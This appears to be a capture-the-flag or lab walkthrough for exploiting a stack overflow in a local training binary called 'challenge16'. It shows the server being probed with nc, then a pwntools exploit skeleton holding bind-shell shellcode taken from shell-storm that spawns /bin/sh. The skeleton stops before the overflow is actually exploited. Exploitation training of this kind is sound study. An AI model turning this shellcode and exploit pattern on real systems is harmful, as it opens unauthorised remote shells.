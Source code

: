 
## Step 1: Check program behaviour

Start server, and note pid:
```
root@hlUbuntu64:~/challenges/challenge16# ./challenge16 &
[1] 5880
root@hlUbuntu64:~/challenges/challenge16# Listen on port: 5001
```

You can use the pid `5880` to later attach to the process in GDB via `attach 5880`.


```
root@hlUbuntu64:~/challenges/challenge16# nc localhost 5001
Press:
  0   To quit
  1   To stack overflow
> 1
How many bytes do you want to read?
> 4
Ok, i'll read 4 bytes
Input string:
> AAAA
I've read: 4 bytes
Ok, done
```

## Step 2: basic exploit skeleton

```
#!/usr/bin/python

import struct
from pwn import *

# http://shell-storm.org/shellcode/files/shellcode-78.php
shellcode = ""
shellcode += "\x31\xc0\x31\xdb\x31\xd2\xb0\x01\x89\xc6\xfe\xc0\x89\xc7\xb2"
shellcode += "\x06\xb0\x29\x0f\x05\x93\x48\x31\xc0\x50\x68\x02\x01\x11\x5c"
shellcode += "\x88\x44\x24\x01\x48\x89\xe6\xb2\x10\x89\xdf\xb0\x31\x0f\x05"
shellcode += "\xb0\x05\x89\xc6\x89\xdf\xb0\x32\x0f\x05\x31\xd2\x31\xf6\x89"
shellcode += "\xdf\xb0\x2b\x0f\x05\x89\xc7\x48\x31\xc0\x89\xc6\xb0\x21\x0f"
shellcode += "\x05\xfe\xc0\x89\xc6\xb0\x21\x0f\x05\xfe\xc0\x89\xc6\xb0\x21"
shellcode += "\x0f\x05\x48\x31\xd2\x48\xbb\xff\x2f\x62\x69\x6e\x2f\x73\x68"
shellcode += "\x48\xc1\xeb\x08\x53\x48\x89\xe7\x48\x31\xc0\x50\x57\x48\x89"
shellcode += "\xe6\xb0\x3b\x0f\x05\x50\x5f\xb0\x3c\x0f\x05";


e = ELF("./challenge16")
tube = connect("localhost", 5001)

def doBof():
        print tube.recvuntil(">")
        tube.sendline("1");

        print tube.recv()
        tube.sendline("8");

        print tube.recv()
        tube.sendline("AAAAAAAA")

        print tube.recv()


```